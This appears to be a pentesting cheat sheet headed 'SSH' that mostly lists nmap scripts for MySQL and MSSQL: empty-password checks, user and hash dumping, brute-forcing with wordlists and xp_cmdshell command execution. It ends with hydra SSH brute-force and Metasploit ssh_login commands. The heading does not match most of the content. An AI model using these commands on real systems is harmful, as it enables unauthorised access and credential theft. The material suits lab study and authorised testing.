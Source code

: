 # **SSH**

## **Secure Shell 22**

--------------------------------------------------------------------

### Nmap Scripts

```
> MYSQL

nmap 0.0.0.0 -SV -p 3306 —script=mysql-empty-password

nmap 0.0.0.0 -SV -p 3306 —script=mysql-info

nmap 0.0.0.0 -SV -p 3306 —script=mysql-users —script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-databases—script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-variables —script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-audit—script-args=”mysql-audit.username=’root’, mysql-audit.password=’’”,mysql-audit.filename=’/usr/share/nmap/nselib/data/mysql-cis.audit’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-dump-hashes —script-args=”username=’root’, password=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-query —script-args=”query=’select count(*) from books.authors;’,username=’root’, password=’’”


> MSSQL:

nmap 0.0.0.0 -p 1433 —script ms-sql-info

nmap 0.0.0.0 -p 1433 —script ms-sql-info —script-args mssql-instance-port=1433

nmap 0.0.0.0 -p 1433 —script ms-sql-brute —script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt

nmap 0.0.0.0 -p 1433 —script ms-sql-empty-password

nmap 0.0.0.0 -p 1433 —script ms-sql-query —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query=”SELECT * FROM master..syslogins” -oN output.txt”

nmap 0.0.0.0 -p 1433 —script ms-sql-dump-hashes —script-args mssql.username=admin,mssql.password=anamaria

nmap 0.0.0.0 -p 1433 —script ms-sql-xp-cmdshell —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=”ipconfig”
```

--------------------------------------------------------------------

### BRUTEFORCE

```
$ hydra -l student -P /usr/share/wordlists/rockyou.txt ssh
```

--------------------------------------------------------------------

### Trying login

```
$ ssh root@0.0.0.0 

$ nc 0.0.0.0 22
```

--------------------------------------------------------------------

### Metasploit

```
$ msfconsole 
> use auxiliary/scanner/ssh/ssh_login
> set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
```

--------------------------------------------------------------------